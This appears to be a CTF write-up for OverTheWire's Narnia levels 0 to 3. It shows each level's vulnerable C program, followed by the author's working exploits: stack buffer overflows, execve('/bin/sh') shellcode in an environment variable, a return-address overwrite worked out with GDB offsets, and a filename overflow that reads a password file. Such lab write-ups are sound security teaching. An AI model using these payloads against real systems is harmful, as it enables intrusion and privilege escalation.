 #Narnia
Narnia is a CTF hosted at overthewire.org/wargames/narnia.  My writeups for the levels will be posted here.
#Level0
Login to level 0 with `ssh narnia0@narnia.labs.overthewire.org` with password naria0.
The levels are all located in the /narnia directory once you are logged in, and the source code for each level is provided.
narnia0.c:
```
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```
Looking at the code we can see that if we overflow buf[20], it will overflow in to val. In order to get the shell, we need to make val contain 0xdeadbeef.
I first entered `perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0`.  This passed the comparison and allowed the system("/bin/sh") line to execute, but the shell was immediately closed because I didn't have any input to give it. 
Next, I modified my input to be `(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"'; cat) | ./narnia0` which allowed me to keep the shell open (with the shell open as narnia1)
#Level1
```
#include <stdio.h>

int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
```
So this code is going to get an environmental variable and then execute it.  Therefore, we want to put some executable code in to an evironmental variable called EGG.  I used the shellcode for execve("/bin/sh") I found at http://shell-storm.org/shellcode/files/shellcode-811.php and issued the command `export EGG=`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" ."\xcd\x80\x31\xc0\x40\xcd\x80"'``.  When I ran the program, I was given a shell as narnia2.
#Level2
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
			exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
```
In this level, the input that we pass the program is copied in to buf[128] using strcpy.  I played around with the inputs to the program and saw that when I sent it Ax139, the program executed with no problems, but when I sent it Ax140, it crashed with "Illegal instruction". 
I opened it up in GDB to get a better idea of what I needed to overflow it with:
```
Dump of assembler code for function main:
   0x0804845d <+0>:	push   ebp
   0x0804845e <+1>:	mov    ebp,esp
=> 0x08048460 <+3>:	and    esp,0xfffffff0
   0x08048463 <+6>:	sub    esp,0x90
   0x08048469 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804846d <+16>:	jne    0x8048490 <main+51>
   0x0804846f <+18>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048472 <+21>:	mov    eax,DWORD PTR [eax]
   0x08048474 <+23>:	mov    DWORD PTR [esp+0x4],eax
   0x08048478 <+27>:	mov    DWORD PTR [esp],0x8048560
   0x0804847f <+34>:	call   0x8048310 <printf@plt>
   0x08048484 <+39>:	mov    DWORD PTR [esp],0x1
   0x0804848b <+46>:	call   0x8048340 <exit@plt>
   0x08048490 <+51>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048493 <+54>:	add    eax,0x4
   0x08048496 <+57>:	mov    eax,DWORD PTR [eax]
   0x08048498 <+59>:	mov    DWORD PTR [esp+0x4],eax
   0x0804849c <+63>:	lea    eax,[esp+0x10]
   0x080484a0 <+67>:	mov    DWORD PTR [esp],eax
   0x080484a3 <+70>:	call   0x8048320 <strcpy@plt>
   0x080484a8 <+75>:	lea    eax,[esp+0x10]
   0x080484ac <+79>:	mov    DWORD PTR [esp+0x4],eax
   0x080484b0 <+83>:	mov    DWORD PTR [esp],0x8048574
   0x080484b7 <+90>:	call   0x8048310 <printf@plt>
   0x080484bc <+95>:	mov    eax,0x0
   0x080484c1 <+100>:	leave  
   0x080484c2 <+101>:	ret    
End of assembler dump.
(gdb) break *0x080484a3
```
I set a break point write before the call to strcpy() and ran the program with an input of 140 A's. (`r `perl -e 'print "A"x140'``)
The syntax for strcpy is strcpy(char *dest,char *src).  Since I broke at strcpy, I can print out the stack to see what those two arguments are:
```
(gdb) x/4wx $esp
0xffffd640:	0xffffd650	0xffffd8a4	0x00000000	0x00000000
```
The destination is at 0xffffd650 and the source is at 0xffffd8a4
Additionally, with `info frame` I see that eip is saved at 0xffffd6dc.  0xffffd6dc-0xffffd650=0x8c(140 decimal), which confirms why we saw the program crashing early.  We have a couple of options of how to exploit at this point, but I'll choose the simples and place my shellcode in buf[] and overwrite eip with the location of buf[] since my shellcode is only 28 bytes so I have plenty of space for it.
My shellcode will take 28 bytes, so will print my shellcode, then 140-28=112 A's and then my return address which is 0xffffd650.  Taking endianess in to account, the final exeuction is:
`./narnia2 `perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" ."\xcd\x80\x31\xc0\x40\xcd\x80" . "A"x112 . "\x50\xd6\xff\xff"'``
When I execute this I'm granted a shell as narnia3 
#Level3
```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
```
This program is copying the file we tell it to /dev/null.  The vulnerability is taht there are no checks on the bounds of ifile when strcpy is used.  We can overflow ifile in order to overwite ofile and output to somewhere other than /dev/null. If I could have ifile point to the /etc/narnia_pass/narnia4 file and the output be somewhere I could read, I could get the program to copy the password for me.
First I made a symbolic link:
```
ln -s /etc/narnia_pass/narnia4 /tmp/me/test12345678901234567890/tmp/me/ab
```
This linked the /tmp/me/test12345678901234567890/tmp/me/ab file to the narnia password.  I then read the program with "./narnia3 /tmp/me/test12345678901234567890/tmp/me/a"  and was then able to cat the password from /tmp/me/ab.  The reason ofile is /tmp/me/ab is because those are the values in memory immedaitely after the 32 characters of ifile.
#Level4
